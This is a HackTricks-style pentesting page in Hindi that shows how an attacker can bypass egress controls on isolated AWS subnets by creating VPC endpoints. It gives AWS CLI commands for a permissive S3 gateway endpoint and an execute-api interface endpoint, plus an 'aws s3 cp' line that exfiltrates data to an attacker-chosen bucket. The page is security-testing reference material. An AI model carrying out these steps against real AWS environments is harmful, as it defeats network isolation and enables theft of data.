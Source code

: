 # AWS – Isolated Subnets से Egress बाईपास (VPC Endpoints के माध्यम से)

{{#include ../../../../banners/hacktricks-training.md}}

## सारांश

यह तकनीक VPC Endpoints का दुरुपयोग करके उन subnets से exfiltration channels बनाती है जिनमें Internet Gateways या NAT नहीं होते। Gateway endpoints (e.g., S3) subnet route tables में prefix‑list routes जोड़ते हैं; Interface endpoints (e.g., execute-api, secretsmanager, ssm, आदि) reachable ENIs बनाते हैं जिनके private IPs security groups द्वारा संरक्षित होते हैं। न्यूनतम VPC/EC2 permissions के साथ, एक attacker controlled egress सक्षम कर सकता है जो public Internet से होकर नहीं गुजरता।

> पूर्वआवश्यकताएँ: मौजूदा VPC और private subnets (no IGW/NAT)। आपको VPC endpoints बनाने की permissions चाहिए होंगी और, Option B के लिए, endpoint ENIs से जोड़ने के लिए एक security group चाहिए होगा।

## Option A – S3 Gateway VPC Endpoint

**वेरिएबल्स**
- `REGION=us-east-1`
- `VPC_ID=<target vpc>`
- `RTB_IDS=<comma-separated route table IDs of private subnets>`

1) एक permissive endpoint policy फ़ाइल बनाएं (वैकल्पिक)। इसे `allow-put-get-any-s3.json` के रूप में सेव करें:
```json
{
"Version": "2012-10-17",
"Statement": [ { "Effect": "Allow", "Action": ["s3:*"], "Resource": ["*"] } ]
}
```
2) S3 Gateway endpoint बनाएं (चयनित route tables में S3 prefix‑list route जोड़ता है):
```bash
aws ec2 create-vpc-endpoint \
--vpc-id $VPC_ID \
--service-name com.amazonaws.$REGION.s3 \
--vpc-endpoint-type Gateway \
--route-table-ids $RTB_IDS \
--policy-document file://allow-put-get-any-s3.json   # optional
```
कैप्चर करने के लिए साक्ष्य:
- `aws ec2 describe-route-tables --route-table-ids $RTB_IDS` AWS S3 prefix list की ओर एक route दिखाता है (उदा., `DestinationPrefixListId=pl-..., GatewayId=vpce-...`).
- उन सबनेट्स में किसी instance से (IAM perms के साथ) आप Internet के बिना S3 के माध्यम से exfil कर सकते हैं:
```bash
# On the isolated instance (e.g., via SSM):
echo data > /tmp/x.txt
aws s3 cp /tmp/x.txt s3://<your-bucket>/egress-test/x.txt --region $REGION
```
## Option B – Interface VPC Endpoint for API Gateway (execute-api)

**वेरिएबल्स**
- `REGION=us-east-1`
- `VPC_ID=<target vpc>`
- `SUBNET_IDS=<comma-separated private subnets>`
- `SG_VPCE=<security group for the endpoint ENIs allowing 443 from target instances>`

1) इंटरफ़ेस endpoint बनाएँ और SG संलग्न करें:
```bash
aws ec2 create-vpc-endpoint \
--vpc-id $VPC_ID \
--service-name com.amazonaws.$REGION.execute-api \
--vpc-endpoint-type Interface \
--subnet-ids $SUBNET_IDS \
--security-group-ids $SG_VPCE \
--private-dns-enabled
```
साक्ष्य जो कैप्चर करने हैं:
- `aws ec2 describe-vpc-endpoints` दिखाता है कि endpoint `available` स्थिति में है और `NetworkInterfaceIds` के साथ (आपके subnets में ENIs)।
- उन subnets के Instances उन VPCE ENIs के माध्यम से Private API Gateway endpoints तक पहुँच सकते हैं (कोई Internet path आवश्यक नहीं)।

## प्रभाव
- AWS‑managed private paths का उपयोग करके perimeter egress controls को बायपास करता है ताकि AWS services तक पहुँच संभव हो।
- IGW/NAT के बिना isolated subnets से data exfiltration सक्षम करता है (उदा., S3 पर लिखना; Private API Gateway को कॉल करना; Secrets Manager/SSM/STS, आदि तक पहुँचना)।

{{#include ../../../../banners/hacktricks-training.md}}
